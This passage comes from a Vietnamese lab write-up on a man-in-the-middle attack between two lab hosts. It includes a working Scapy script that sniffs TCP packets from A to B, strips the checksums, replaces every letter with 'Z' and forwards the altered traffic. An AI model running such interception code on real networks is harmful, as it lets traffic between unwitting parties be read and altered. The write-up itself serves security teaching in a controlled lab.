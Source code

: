 ![](https://i.imgur.com/UAzolzH.png)

![](https://i.imgur.com/fjWQuET.png)

Đây chính là mục đích của chúng ta, để intercept quá trình giao tiếp từ A tới B, chúng ta cần chặn mọi thứ A gửi, sửa nó và gửi tới B, chạy đoạn script sau để tiến hành intercept, lưu ý là cần phải sniff gói tin xong rồi mới modify được:

```python=
#!/usr/bin/env python3
from scapy.all import *
import re

IP_A = "10.9.0.5"
IP_B = "10.9.0.6"
MAC_A = "02:42:0a:09:00:05"
MAC_B = "02:42:0a:09:00:06"

def intercept(pkt):
	if pkt[IP].src == IP_A and pkt[IP].dst == IP_B and pkt[TCP].payload:
		newpkt = IP(bytes(pkt[IP]))
		del(newpkt.chksum)
		del(newpkt[TCP].payload)
		del(newpkt[TCP].chksum)
		
		olddata = pkt[TCP].payload.load
		data = olddata.decode()
		newdata = re.sub(r'[a-zA-Z]',r'Z',data)
		
		send(newpkt/newdata)

	elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
		send(pkt[IP])

pkt = sniff(iface='eth0', filter='tcp', prn=intercept)

```

Đoạn code trên sẽ sniff gói tin rồi xét 2 trường TCP.src và TCP.dst để xác nhận gói tin đi theo chiều nào, nếu từ A -> B thì sẽ thực hiện xóa checksum và thay đổi data (phải xóa checksum đi vì khi modify gói tin, checksum cũ sẽ bị sai). Ngược lại, nếu gói tin từ B -> A thì không sửa đổi gì cả mà chỉ đơn giản là forwarding gói tin cho A. Chỗ gán olddata và tạo newdata sẽ thay đổi mỗi kí tự host A nhập vào thành chữu "Z". Chạy thử script trên attacker và test bằng cách gửi dữ liệu từ A qua B để xem dữ liệu có bị thay đổi thành "Z" không:

![](https://i.imgur.com/LcvvnGf.png)

Có thể quan sát 2 dòng cuối từ A gửi sang B là "aaaa" và "tttt" nhưng đều bị đổi thành "ZZZZ", tuy nhiên từ B gửi lại sang A thì sẽ không thay đổi

> *Vậy là chúng ta đã thành công thực hiện cuộc tấn công Man in The Middle giữa 2 host A và B, sniff gói tin và intercept thay đổi nội dung rồi gửi lại cho nạn nhân thông điệp đã bị sửa.*

---